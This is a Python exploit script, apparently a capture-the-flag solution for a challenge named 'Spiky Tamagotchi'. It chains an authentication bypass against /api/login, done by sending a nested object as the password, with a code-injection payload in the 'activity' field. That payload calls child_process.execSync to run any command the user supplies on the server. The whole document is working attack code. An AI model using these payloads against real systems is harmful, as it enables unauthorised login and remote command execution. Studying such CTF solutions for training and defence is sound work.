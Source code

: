 # Final Exploit

```python
#!/usr/bin/python3
import urllib.parse, argparse
import requests
import json

parser = argparse.ArgumentParser(description="Exploit Spiky Tamagotchi")
parser.add_argument("-i","--ip", help="target IP")
parser.add_argument("-p","--port", help="target port")
parser.add_argument("-c","--cmd", help="command to execute")
parser.add_argument("--username", help="login username (deafult: admin)", default="admin")

args = parser.parse_args()

if not(args.ip and args.port and args.cmd):
    print("Usage: exploit.py -i <ip> -p <port> -c <cmd>")
    exit

print("Preparing the SQL Injection exploit...")
url = 'http://' + args.ip + ':' + args.port + '/api/login'
payload = {
    "username":f"{args.username}",
    "password":{
        "password":1
    }
}
jsonData = json.dumps(payload)
headers = {'Content-type': 'application/json'}

# Get a valid token exploiting SQL Injection
print("Exploiting the SQL Injection...")
s = requests.Session()
resp = s.post(url, data = jsonData, headers=headers)
session = s.cookies.get_dict()

# Exploit the RCE
print("Preparing the RCE exploit...")
url = 'http://' + args.ip + ':' + args.port + '/api/activity'
payload = {
    "activity":f"' + (global.process.mainModule.require('child_process').execSync('{args.cmd}'))+'",
    "health":"99",
    "weight":"99",
    "happiness":"99"
    }
jsonData = json.dumps(payload)
headers = {'Content-type': 'application/json'}

print("Exploiting the RCE...")
resp = s.post(url, data = jsonData, headers=headers, cookies=session)
print(resp.status_code)
if resp.status_code == 200:
    print('Exploit succesful!')
else:
    print('Ops, something when wrong...')
```
